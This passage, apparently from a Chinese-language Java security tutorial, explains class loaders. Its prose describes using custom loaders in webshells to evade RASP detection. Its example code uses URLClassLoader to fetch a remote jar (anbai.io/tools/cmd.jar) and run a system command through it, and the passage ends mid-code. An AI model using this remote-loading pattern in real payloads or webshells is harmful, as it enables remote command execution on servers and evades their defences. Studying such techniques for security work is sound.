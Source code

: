 ```java
			// 反射获取hello方法
			Method method = testInstance.getClass().getMethod("hello");

			// 反射调用hello方法,等价于 String str = t.hello();
			String str = (String) method.invoke(testInstance);

			System.out.println(str);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

利用自定义类加载器我们可以在webshell中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的native方法绕过RASP检测，也可以用于加密重要的Java类字节码（只能算弱加密了）。



## URLClassLoader

`URLClassLoader`继承了`ClassLoader`，`URLClassLoader`提供了加载远程资源的能力，在写漏洞利用的`payload`或者`webshell`的时候我们可以使用这个特性来加载远程的jar来实现远程的类方法调用。

**TestURLClassLoader.java示例：**

```java
package com.anbai.sec.classloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

/**
 * Creator: yz
 * Date: 2019/12/18
 */
public class TestURLClassLoader {

	public static void main(String[] args) {
		try {
			// 定义远程加载的jar路径
			URL url = new URL("https://anbai.io/tools/cmd.jar");

			// 创建URLClassLoader对象，并加载远程jar包
			URLClassLoader ucl = new URLClassLoader(new URL[]{url});

			// 定义需要执行的系统命令
			String cmd = "ls";

			// 通过URLClassLoader加载远程jar包中的CMD类
			Class cmdClass = ucl.loadClass("CMD");

			// 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
			Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

			// 获取命令执行结果的输入流
			InputStream           in   = process.getInputStream();
			ByteArrayOutputStream baos = new ByteArrayOutputStream();
			byte[]                b    = new byte[1024];
			int                   a    = -1;

			// 读取命令执行结果
```